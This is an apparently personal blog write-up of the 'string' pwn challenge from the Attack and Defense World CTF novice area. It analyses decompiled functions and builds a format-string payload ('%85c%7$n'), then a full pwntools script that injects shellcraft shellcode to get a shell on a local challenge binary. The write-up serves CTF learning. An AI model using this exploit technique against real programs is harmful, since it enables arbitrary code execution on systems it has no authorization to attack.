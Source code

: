 ```yaml
---
title: "Pwn String WriteUp in 'Attack and Defense World'"
date: 2021-12-30
tags: ['CTF', 'Pwn', 'writeup', 'wp']
authors: [nova]
---
```


## Random Thoughts at the Beginning

Why is this Pwn challenge so difficult? Can't understand the WriteUp at all. ~~Quitting Pwn immediately~~

Anyway, let's start by taking down this newbie area of the Attack and Defense World.

After a few days of ~~not-so-systematic three days of fishing and two days of drying nets~~ studying, I can only say I am extremely confident now.

**String** should be the most interesting and challenging challenge in the novice area of the Attack and Defense World. Let's do this!

<!--truncate-->


## Let's Go

### Analysis
![exeinfope](https://cdn.ova.moe/img/image-20211101153717286.png)

![checksec](https://cdn.ova.moe/img/image-20211101153833049.png)

In summary, let's do a quick scan. There is no PIE in 64-bit.

Let's first look at the main function.

![main](https://cdn.ova.moe/img/image-20211101153942250.png)

v4 allocates memory of **8 bytes** to store the data `68, 85`, and then it prints out the addresses of these two data.

Let's dive into `sub_400D72()`.

![sub_400D72()](https://cdn.ova.moe/img/image-20211101154214749.png)

It asks us for a name, but the length of the input for 's' is checked, so no buffer overflow seems possible.

Let's continue to check the other functions. First, it's `sub_400A7D()`.

![sub_400A7D()](https://cdn.ova.moe/img/image-20211101154750528.png)

> As a side note for improving English skills, let's translate this(?):
>
> > This is a famous yet unusually different tavern. The air here is fresh, the marble floor is clean. There are hardly any noisy customers, and the furniture is not damaged as commonly seen in fights at other taverns in this world. The decoration is extremely gorgeous, looking like it belongs in a palace, but in this city, it's quite ordinary. In the center of the room are chairs and benches covered with velvet, surrounded by a large oak table. A large sign is fixed on a wall to the north behind a wooden strip. In one corner, you find a fireplace. There are two noticeable exits: east and up. Strangely, there is no one there, so where do you go?
>
> This background is not unattractive per se, but translating it feels like a waste of time.
>
> ~~I am a silly assistant~~

So, we are given the choice to go `east` or `up`, but looking at the code below, it seems we can only choose `east` (choosing `up` will lead you to an endless pit). Let's move on to `sub_400BB9()`.

![sub_400BB9()](https://cdn.ova.moe/img/image-20211101173616709.png)

Here, it mentions `address`, which easily connects to our earlier `v4`. It seems we need to manipulate v2 and the format string, but the exact operation is not clear yet. Let’s continue with `sub_400CA6()`.

![sub_400CA6()](https://cdn.ova.moe/img/image-20211101174119436.png)

This 'a1' is actually our initial v4, so we need to make `*v4 = v4[1]`.

Pay attention to `((void (__fastcall *)(_QWORD))v1)(0LL);`, this line converts v1 into an executable function (void as return type, __fastcall as a calling convention), meaning we can now inject shellcode. 

### Payload

The next step is how to achieve it.

Let’s write the first few fixed steps:

![exp_01](https://cdn.ova.moe/img/image-20211102105044906.png)

Now, we need to introduce the format string vulnerability, [learn more](https://ctf-wiki.org/pwn/linux/user-mode/fmtstr/fmtstr-intro/).

We need to find the position of v4 in the stack and craft our payload accordingly:

```python
payload = 'AAAA'+'.%x'*10
```

![addr_info](https://cdn.ova.moe/img/image-20211102105300535.png)

We see that our `41414141` is in the eighth position on the stack, and the v4_addr we wrote is in the previous position. At this point, we can craft a payload to make *v4=85:

```python
payload = '%85c%7$n'
```

![return_0](https://cdn.ova.moe/img/image-20211102105850378.png)

Now we have satisfied the conditions in `sub_400CA6()`, so we just need to inject a shellcode to get a shell.

Complete payload:

```python
from pwn import *
context(log_level='debug')

sh = process('./1d3c852354df4609bf8e56fe8e9df316')

sh.recvuntil('secret[0] is ')
v4_addr = int(sh.recvuntil('\n')[:-1], 16)
print(v4_addr)

sh.recvuntil('be:')
sh.sendline(b'yuusya')
sh.sendlineafter('east or up?:\n', b'east')
sh.sendlineafter('leave(0)?:\n', b'1')

# *v4 = 85
sh.sendlineafter("address'\n", str(v4_addr))
payload = '%85c%7$n'
sh.sendline(payload)
sh.recvuntil('I hear it')
context(arch='amd64', os='linux')
sh.sendlineafter('SPELL', asm(shellcraft.sh()))
sh.interactive()
```

<!-- AI -->
